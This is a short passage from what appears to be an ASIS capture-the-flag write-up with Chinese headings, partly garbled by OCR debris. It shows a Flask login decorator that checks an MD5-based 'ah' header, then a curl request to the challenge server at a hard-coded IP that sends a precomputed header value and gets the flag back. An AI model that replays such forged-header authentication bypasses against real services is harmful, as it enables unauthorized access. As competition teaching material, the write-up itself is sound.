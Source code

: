 还有`functions.py` (…。//functions.py &。txt)

```
from flask import request, abort
from functools import wraps
import traceback, os, hashlib
from config import *

def check_login(f):
    """
    Wraps routing functions that require a user to be logged in
    """
    @wraps(f)
    def wrapper(*args, **kwds):
        try:
            ah = request.headers.get('ah')

            **if ah == hashlib.md5((Config.ADMIN_PASS + Config.SECRET).encode("utf-8")).hexdigest():
                return f(*args, **kwds)**
            else:
                return abort(403)

        except:
            return abort(403)

    return wrapper
```

旗帜:

```
curl [http://66.172.33.148:8008/protected_area_0098](http://66.172.33.148:8008/protected_area_0098) -H "ah: cbd54a3499ba0f4b221218af1958e281" -v
*   Trying 66.172.33.148...
* TCP_NODELAY set
* Connected to 66.172.33.148 (66.172.33.148) port 8008 (#0)
> GET /protected_area_0098 HTTP/1.1
> Host: 66.172.33.148:8008
> User-Agent: curl/7.64.1
> Accept: */*
> ah: cbd54a3499ba0f4b221218af1958e281
>
< HTTP/1.1 200 OK
< Server: nginx/1.15.8
< Date: Sun, 17 Nov 2019 13:53:05 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 38
<
* Connection #0 to host 66.172.33.148 left intact
ASIS{f70a0203d638a0c90a490ad46a94e394}
* Closing connection 0
```
